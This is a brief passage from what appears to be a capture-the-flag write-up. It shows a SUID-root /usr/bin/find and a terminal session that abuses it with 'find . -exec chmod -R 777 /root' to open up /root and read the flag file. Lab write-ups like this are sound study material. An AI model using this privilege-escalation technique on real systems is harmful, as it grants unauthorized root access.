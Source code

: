 `-r-sr-xr-x 1 root root 232196 Feb 8 2016 /usr/bin/find`

4. root.txt

```
stoner@Vulnerable:~$ find . -exec chmod -R 777 /root \;
stoner@Vulnerable:~$ ls -l /root
total 4
-rwxrwxrwx 1 root root 29 Aug 21  2019 root.txt
stoner@Vulnerable:~$ cat /root/root.txt
It wasn't that hard, was it?
stoner@Vulnerable:~$
```

`It wasn't that hard, was it?`
